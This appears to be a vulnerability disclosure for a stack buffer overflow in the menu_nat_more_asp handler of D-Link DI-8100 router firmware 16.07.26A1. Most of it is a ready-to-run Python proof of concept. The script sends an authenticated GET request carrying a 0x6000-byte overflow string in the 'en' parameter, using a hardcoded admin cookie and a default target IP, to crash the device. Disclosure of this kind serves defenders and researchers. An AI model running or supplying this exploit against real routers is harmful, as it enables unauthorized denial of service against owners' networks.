

A critical stack-based buffer overflow vulnerability exists in the menu_nat_more_asp function of D-Link DI-8100 routers running firmware version 16.07.26A1. This vulnerability could allow remote attackers to cause a Denial of Service (DoS) condition by sending specially crafted HTTP requests to vulnerable devices.


POC:
```python
import requests
from pwn import *
import time

def exploit(target_ip):
    auth_cookie = "wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"
    
    timestamp = int(time.time())
    attack_url = f"http://{target_ip}/menu_nat_more.asp?_{timestamp}"
    pay =  b"A"*0x6000
	
    payload = {
		"opt": "add",              
		"src": "bypass_rule",         
		"en": pay,                  
		"nat_inter_en": "0",        
		"interface": "255",         
		"target_addr_type": "CONTROLLED_VALUE",  
		
		"src_addr": "1.1.1.1",
		"src_netmask": "255.255.255.0",
		"target_addr": "2.2.2.2",
		"target_netmask": "255.255.0.0",
		"to_address": "test"
    }
    
    headers = {
        "Host": target_ip,
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate, br",
        "Connection": "keep-alive",
        "Cookie": auth_cookie,
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    }
    
    try:
        response = requests.get(
            attack_url,
            params=payload,  
            headers=headers,
            timeout=5,
            verify=False
        )
        
        print(f"Response status code: {response.status_code}")
        print(f"Response length: {len(response.text)} bytes")
        
        print("\nResponse preview:")
        print(response.text[:500])
        
    except Exception as e:
        print(f"[!] The request failed: {str(e)}")

if __name__ == "__main__":
    TARGET_IP = "192.168.0.1"  
    exploit(TARGET_IP)

```




